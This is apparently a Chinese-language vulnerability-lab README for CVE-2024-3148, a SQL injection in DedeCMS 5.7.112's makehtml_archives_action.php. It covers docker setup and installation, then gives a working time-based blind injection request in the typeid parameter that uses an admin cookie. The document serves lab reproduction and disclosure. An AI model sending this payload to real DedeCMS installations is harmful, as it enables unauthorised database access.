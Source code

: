 # CVE-2024-3148 DedeCms makehtml_archives_action sql注入漏洞

DedeCMS（也称为织梦CMS）是一款基于PHP+MySQL的开源内容管理系统。

在 DedeCMS 5.7.112 中发现一个被归类为严重的漏洞。此漏洞会影响某些未知文件dede/makehtml_archives_action.php的处理。操作导致 sql 注入。攻击可能是远程发起的。该漏洞已向公众披露并可能被使用。

官网地址https://www.dedecms.com/



## 漏洞环境

执行如下命令启动一个DedeCms-v5.7.112-web服务器：

```
docker compose up 
```



服务启动后，可访问`http://your-ip:80/`跳转到DedeCms安装向导页面

![image-20240407141035299](./1.png)

点击继续安装

![image-20240407141203597](./2.png)

安装完成

![image-20240407141314706](./3.png)

## 漏洞复现

使用账号密码登录网站后台,获取后台cookie

![image-20240407141455435](./4.png)

发送payload

```
GET /dede/makehtml_archives_action.php?typeid=1+AND+(SELECT+1+FROM+(SELECT(SLEEP(3)))a) HTTP/1.1
Host: 10.66.64.106
Cookie: menuitems=[yourcookie]
Connection: close


```

![image-20240407141717969](C:\Users\admin\Documents\GitHub\VulneraLab\DedeCMS\CVE-2024-3148\5.png)

![image-20240407141814960](C:\Users\admin\Documents\GitHub\VulneraLab\DedeCMS\CVE-2024-3148\6.png)